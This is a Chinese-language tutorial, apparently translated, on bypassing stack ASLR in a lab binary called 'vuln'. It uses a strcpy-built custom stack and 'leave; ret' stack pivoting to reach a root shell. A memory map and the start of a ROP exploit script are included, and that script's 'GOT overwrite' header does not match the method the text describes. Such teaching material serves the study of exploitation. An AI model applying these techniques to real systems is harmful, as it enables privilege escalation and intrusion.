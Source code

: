 ### 如何绕过栈地址随机化
可以利用自定义栈和栈旋转(stack pivoting)技术做到！  

### 什么是自定义栈
自定义栈就是被攻击者控制的栈区域。攻击者拷贝libc函数链以及相应的参数来绕过栈随机化。由于攻击者进程的选择任意非位置独立(non position independent）并可写的内存区域作为自定义栈。在我们的二进制文件’vuln’中，可写并非位置独立的内存区域是从0x804a000到0x804b000（如下所示)  

```
$ cat /proc//maps
08048000-08049000 r-xp 00000000 08:01 399848 /home/sploitfun/lsploits/aslr/vuln
08049000-0804a000 r--p 00000000 08:01 399848 /home/sploitfun/lsploits/aslr/vuln
0804a000-0804b000 rw-p 00001000 08:01 399848 /home/sploitfun/lsploits/aslr/vuln
b7e21000-b7e22000 rw-p 00000000 00:00 0 
b7e22000-b7fc5000 r-xp 00000000 08:01 1711755 /lib/i386-linux-gnu/libc-2.15.so
b7fc5000-b7fc7000 r--p 001a3000 08:01 1711755 /lib/i386-linux-gnu/libc-2.15.so
b7fc7000-b7fc8000 rw-p 001a5000 08:01 1711755 /lib/i386-linux-gnu/libc-2.15.so
b7fc8000-b7fcb000 rw-p 00000000 00:00 0 
b7fdb000-b7fdd000 rw-p 00000000 00:00 0 
b7fdd000-b7fde000 r-xp 00000000 00:00 0 [vdso]
b7fde000-b7ffe000 r-xp 00000000 08:01 1711743 /lib/i386-linux-gnu/ld-2.15.so
b7ffe000-b7fff000 r--p 0001f000 08:01 1711743 /lib/i386-linux-gnu/ld-2.15.so
b7fff000-b8000000 rw-p 00020000 08:01 1711743 /lib/i386-linux-gnu/ld-2.15.so
bffdf000-c0000000 rw-p 00000000 00:00 0 [stack]
$
```
含有.data和.bss段的内存区域可以用来当做自定义栈。我将自定义站的位置选为0x804a360.  

选择选择好自定义栈位置后，我们需要拷贝libc函数链以及相应的参数到自定义栈中。在我们的例子中，将下面的libx函数(以及相应的参数)拷贝到自定义栈中，以用来触发root shell。  

seteuid@PLT | getuid@PLT | seteuid_arg | execve_arg1 | execve_arg2 | execve_arg3  
为了将这些内容拷贝到自定义栈，我们需要利用一系列strcpy调用来覆盖真实栈中的返回地址。比如，为了将seteuid@PLT (0x80483c0)拷贝到自定义栈中，我们需要  

* 四个strcpy调用- 每个十六进制值分别有一个strcpy调用(0x08, 0x04, 0x83, 0xc0)
	- strcpy的源参数必须是含有必需的十六进制值的可执行内存区域的地址。另外我们需要确保选择的内存区域的值不能被修改。
* strcpy的目的参数必须是自定义栈的地址

遵守以上原则，我们可以设置完整的自定义栈。一旦设置好了自定义栈，我们需要利用栈旋转技术(stack pivoting)将真实栈移到自定义栈中  

### 什么是栈旋转
栈旋转可以利用’leave ret’指令来做到。我们已经知道“leave”被翻译为  
```
mov ebp, esp
pop ebp
```
因此，在执行”leave“指令之前，将自定义栈的地址加载到EBP中–当“leave”执行后，将ESP指向EBP！ 这样就已经旋转了自定义栈，我们继续执行加载到自定义栈中的一系列libc函数，就可以触发root shell了。  

完整漏洞利用代码：  
``` python

#exp.py
#!/usr/bin/env python
import struct
from subprocess import call
#GOT overwrite using ROP gadgets
'''
 G1: 0x0804849e: addl %eax, 0x5D5B04C4(%ebx) ; ret ;
 G2: 0x080484a2: popl %ebx ; pop ebp; ret ;
 G3: 0x????????: popl %eax ; ret ; (NOT found)
 G4: 0x080485b3: mov 0x34(%esp),%eax...
 G5: 0x08048380: pop ebx ; ret ;
 G6: 0x080485cd: pop esi ; pop edi ; pop ebp ; ret ;
 G7: 0x08048498: movb $0x1,0x804a028...
'''
g1 = 0x0804849e
g2 = 0x080484a2
```